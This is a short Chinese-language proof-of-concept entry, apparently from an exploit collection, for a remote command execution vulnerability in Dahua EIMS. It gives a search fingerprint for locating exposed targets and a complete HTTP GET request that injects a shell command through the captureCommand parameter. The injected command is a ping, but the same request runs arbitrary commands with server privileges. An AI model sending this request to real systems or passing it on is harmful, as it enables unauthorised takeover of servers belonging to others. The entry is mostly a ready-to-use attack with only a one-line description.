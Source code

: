 ﻿# 大华 EIMS captureCommand 远程命令执行漏洞

> 更新时间：2024-03-08

> 漏洞编号：

> 漏洞说明：大华 EIMS captureCommand 存在远程命令执行漏洞，攻击者可利用该漏洞获取服务器权限。

> 漏洞特征：app="dahua-EIMS"

> 验证脚本：HTTP

```
GET /config/asst/system_setPassWordValidate.action/capture_handle.action?captureFlag=true&captureCommand=ping%20www.baidu.com%20index.pcap HTTP/1.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：大华 EIMS captureCommand 远程命令执行漏洞.poc

